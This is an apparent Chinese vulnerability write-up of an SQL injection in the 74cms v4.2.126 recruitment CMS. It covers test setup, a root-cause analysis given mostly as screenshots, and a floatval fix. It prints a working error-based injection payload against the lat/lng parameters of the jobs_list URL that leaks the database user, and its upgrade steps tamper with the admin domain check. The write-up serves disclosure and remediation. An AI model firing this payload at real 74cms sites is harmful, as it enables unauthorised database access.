# 74cms v4.2.126-通杀sql注入

> 原文：[https://www.zhihuifly.com/t/topic/2790](https://www.zhihuifly.com/t/topic/2790)

# 74cms v4.2.126-通杀sql注入

# 0x00 前言

厂商：74cms
下载地址：[http://www.74cms.com/download/index.html](http://www.74cms.com/download/index.html)

关于版本：
新版的74cms采用了tp3.2.3重构了，所以可知底层是tp，74cms新版升级是后台升级的，所以先将将升级方法。

注：此漏洞不用升级至最新版本也可使用。

# 0x01 74cms升级到最新版

1， 先去官网下载 骑士人才系统基础版(安装包)
2， 将下载好的包进行安装
3， 进入后台点击查看如果不是最新版的话，请点击升级！
4， 如果是本地环境的话，会提示 域名不合法升级失败，这个问题很好解决
5， 搜索文件74cms\upload\Application\Admin\Controller\ApplyController.class.php
6， 查找所有$_SERVER['HTTP_HOST'] 改为  [http://baidu.com](http://baidu.com) 即可

# 0x02 数据填充不然没得测试



## 0x02.1注册商家账号方便测试

首先先注册一个商家用户然后发布一条消息，注册商家直接去后台注册最简单了
注册完成以后将此商家用户登录前台



## 0x02.2注册普通账号方便测试



# 0x03 sql漏洞演示





这样的话只要点击完以后有数据 你在 lat  lng  字段都可以正常的进行注入

```
Payload: 
http://74cms.test/index.php?m=&c=jobs&a=jobs_list&lat=23.176465&range=20&lng=113.35038 PI() / 180 - map_x  PI() / 180) / 2),2))) * 1000) AS map_range FROM qs_jobs_search j WHERE (extractvalue (1,concat(0x7e,(SELECT USER()), 0x7e))) -- a 
```



# 0x04 漏洞原理













说明我们的猜想是没有错的。





所以最终我们符合条件的内容都会赋值为$this->params






# 0x05 修复方法



```
$this->field = "id,ROUND(6378.138*2*ASIN(SQRT(POW(SIN((".floatval($this->params['lat'])."*PI()/180-map_y*PI()/180)/2),2) COS(".floatval($this->params['lat'])."*PI()/180)*COS(map_y*PI()/180)*POW(SIN((".floatval($this->params['lng'])."*PI()/180-map_x*PI()/180)/2),2)))*1000) AS map_range"; 
```

强转为浮点型，防止注入

## 四、参考链接

> https://www.yuque.com/pmiaowu/bfgkkh/iwgmb2